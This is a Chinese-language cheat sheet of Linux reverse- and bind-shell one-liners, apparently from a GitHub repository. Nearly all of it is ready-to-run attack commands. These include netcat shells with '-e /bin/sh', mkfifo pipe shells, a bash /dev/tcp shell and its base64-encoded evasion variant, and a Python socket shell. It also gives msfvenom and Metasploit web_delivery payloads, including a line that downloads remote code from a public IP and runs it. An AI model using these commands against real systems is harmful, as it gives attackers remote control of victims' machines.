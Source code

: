 ## Linux反弹Shell
### NC
- 正向shell: 被控端使用nc将/bin/sh绑定到本地6666端口, 控制端主控连接6666
```shell
# 被控端
nc -lvvp 6666 -e /bin/sh
# 控制端
nc 10.10.1.7 6666
```
- 反向shell: 被控端使用nc将/bin/sh发送到控制端的6666端口, 控制端监听本地6666端口
```shell
# 被控端
nc -e /bin/sh 10.10.1.11 6666
# 控制端
nc -lvvp 6666
```
- 无-e参数反弹shell: mkfifo命令创建一个管道, cat输出给/bin/sh执行, 通过nc传回该管道
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.101 6666 > /tmp/f
# 或
mknod backpipe p; nc 192.168.1.101 6666 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```
Linux mkfifo: https://www.cnblogs.com/old-path-white-cloud/p/11685558.html
Linux mknod: https://man.linuxde.net/mknod

### Bash
```shell
# 被控端:
exec 5<>/dev/tcp/139.155.49.43/6666;cat <&5 | while read line; do $line 2>&5 >&5; done

# 控制端:
nc –lvvp 6666

# base64编码绕过: 
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Ljg1LzY2NjYgMD4mMQ==|base64 -d|bash -i"
```
msfvenom -p cmd/unix/reverse_bash lhost=10.10.1.11 lport=6666 -f raw

### Python
```shell
# 一行命令反弹shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.101.214.85",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Msfvenom的python反弹shell的payload
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=139.155.49.43 LPORT=6666 -f raw
handler -p python/meterpreter/reverse_tcp -H 139.155.49.43 -P 6666
```
- Web delivery反弹shell
```shell
use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 0
msf5 exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set lport 8888
msf5 exploit(multi/script/web_delivery) > exploit –j

python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://139.155.49.43:8080/pWMAajktf', context=ssl._create_unverified_context());exec(r.read());"
```
